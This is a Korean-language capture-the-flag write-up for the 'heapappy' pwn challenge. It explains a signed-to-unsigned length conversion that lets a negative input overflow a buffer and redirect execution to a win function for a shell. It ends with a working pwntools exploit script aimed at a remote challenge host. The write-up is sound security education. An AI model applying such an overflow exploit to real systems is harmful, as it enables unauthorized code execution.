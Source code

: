 ```yaml
---
title: 'CCE - heapappy'
published: 2025-08-24
author: 'onLeaf'
description: 'heapappy writeup'
image: 'https://cdn.discordapp.com/avatars/1001487706267844608/04764b047c96ad414755cb889b85c36c.webp?size=80'
tags: ['Pwn','cce','sad']
category: 'onLeaf'
draft: false
---
```

#힙하다.

파일을 분석해보면 5가지의 큰 함수가 있다. 

그중 adopt 함수 내부를 보면 입력할 길이를 받고 input 함수를 호출하는 코드가 있다. 
근데 입력할 길이가 올바른지 판단하는 조건에서 입력이 24보다 크면 너무 길다고 출력하는 코드가 있지만 음수를 입력받았을때는 판단하지 않고 그냥 input으로 보내버린다. l
이 점이 의심스러워 input을 뜯어보니 전에 길이를 입력받을때엔 int로 선언되어있던 v1이 input함수로 넘어가면서 unsigned_int로 바뀌었다. 
이 점을 이용해 -99999같은 값을 입력할 길이에 넣어버리면 unsigned_int에 의해 매우 큰 값으로 바뀌고 여기에 win 함수의 주소를 넣어 ret을 덮고

포인터를 사용하는 perform_ritual 함수를 호출하면 
쉘을 딸 수 있다.


```python
from pwn import *

#p = process('./prob')
p = remote('3.38.164.12', 3030)
e = ELF('./prob')

win = e.symbols['win']

p.sendlineafter('Choice: ',b'1')

p.sendlineafter('Name length: ',b'-99999')

p.sendlineafter('Name bytes: ',b'A'*32 + p64(win))

p.sendlineafter('Choice: ',b'3')

p.interactive()
```
